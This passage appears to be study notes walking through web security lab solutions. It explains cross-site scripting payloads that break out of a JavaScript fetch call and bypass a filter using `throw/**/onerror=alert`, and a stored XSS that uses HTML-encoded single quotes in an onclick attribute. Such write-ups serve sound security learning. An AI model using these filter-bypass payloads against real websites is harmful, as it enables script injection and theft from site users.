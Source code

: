As a last argument to the fetch function we pass: `,{c:'`. This is needed because we need a graceful closing. Without it we would be:
```
fetch('/analytics', {method:'post',body:'/post?postId=5&'},toString=alert,window+'''}).finally(_=>window.location='/')
```
`window+'''}` is happening because after `postId=5&` we injected `'}` so that we could close the second arguments that is passed to the fetch (second arguments is options object) and add more arguments.
But since we provided `{c:'` at the end of our payload, the fetch function call is gracefully closed:
```
fetch('/analytics', {method:'post',body:'/post?postId=5&'},toString=alert,window+'',{c:''}).finally(_=>window.location='/')
```

But what we did above will only call the alert function itself. But if we want to pass some arguments to it, then we need to create an arrow function `a=b=>{throw/**/onerror=alert,3333}`, which will be called during window concatination with a string.
```
?postId=5&'},a=b=>{throw/**/onerror=alert,3333},toString=a,window+'',{c:'
```
Spaces are not allowed so instead of a space we use `/**/` inside of `a=b=>{throw/**/onerror=alert,3333}`

`onerror` is a function that is called when js throws an err. That's actually what our function is doing. It throws an err and it passes the last argument of it's call to the `onerror` function. e.g.:
`throw 111` under the hood will call `onerror(111)`

What's  interesting is that `throw` will only pass the last argument to the `onerror` function.
In another words:
`throw 111, 222` under the hood will call `onerror(222)`

Since the first argument is ignored, we an actually use that argument to override `onerror` function with the `alert` function.

And later when `a=b=>{throw/**/onerror=alert,3333}` is called - then it'll be the same as `throw 3333` and since `onerror` is overriden with `alert`, it means that it'll pass `3333` to the `alert` function call : ))

BTW `b` param is ignored here, it is here because `()` are blocked by WAF.


### Making use of HTML-encoding
### Lab: Stored XSS into onclick event with angle brackets and double quotes HTML-encoded and single quotes and backslash escaped
On the website we can add a new comment to a blog:
We specify: author name: `ff1` and author's website url `http://ff.com`. Later it is stored in db and returned from the server inside of `<a>` tag:
```
<a id="author" href="http://ff.com" onclick="var tracker={track(){}};tracker.track('http://ff.com');">ff1</a>
```
So we can try to break out of existing strings and inject our js payload, but read the lab title, it tells already what is not possible to do.
So, single quotes are escaped, but what if we try to HTML-encode single quotes?
`&apos;` is html-encoding for a single quote character.
Therefore we do the following:
```
http://bbb.com&apos;-alert(1)-&apos;
```
e.g. in .reqbody:
```
website=http://bbb.com%26apos%3b-alert(1)-%26apos%3b
```
